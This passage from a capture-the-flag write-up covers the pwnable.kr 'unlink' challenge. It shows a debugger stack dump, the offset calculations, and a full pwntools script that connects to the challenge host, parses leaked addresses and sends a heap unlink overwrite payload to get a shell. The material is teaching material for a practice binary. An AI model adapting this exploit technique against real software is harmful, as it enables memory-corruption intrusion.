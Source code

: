 ```bash
0xffce9220│+0x0000: 0xffce9260  →  0xf7e2a000  →  0x00229dac	 ← $esp
0xffce9224│+0x0004: 0x0837b5b0  →  0x0837b5f0  →  0x00000000
0xffce9228│+0x0008: 0x0837b5f0  →  0x00000000
0xffce922c│+0x000c: 0x0837b5d0  →  0x0837b5f0  →  0x00000000
0xffce9230│+0x0010: 0x00000001
0xffce9234│+0x0014: 0xffce9250  →  0x00000001
0xffce9238│+0x0018: 0xf7f59020  →  0xf7f59a40  →  0x00000000	 ← $ebp
0xffce923c│+0x001c: 0xf7c21519  →   add $0x10, %esp
[....]
```
`0xffce9238-0xffce9224`= 20 Bytes, `$ebp-8` is leaked stack address + 12

So how do we build the exploit? I definitely recommend building a script since the leaks change each run.

```python
import pwn

# SSH into machine
r = pwn.ssh(host="pwnable.kr", port=2222, user="unlink", password="guest")
io = r.process("./unlink")

# this is the address of $ebp-4
overwritten_addr = pwn.packing.pack(int(io.recvline().split()[-1].rstrip(), 0) + 16)

# this is the address of the shell address byte sequence, plus 4
helper_addr = pwn.packing.pack(int(io.recvline().split()[-1].rstrip(), 0) + 12)

# address of shell function
shell = b"\xeb\x84\x04\x08"

io.sendline(shell + b"\x00" * 12 + helper_addr + overwritten_addr)
io.interactive()
io.close()
r.close()
```

We also added 12 null bytes since the size of `OBJ` is 12 bytes inside the machine.

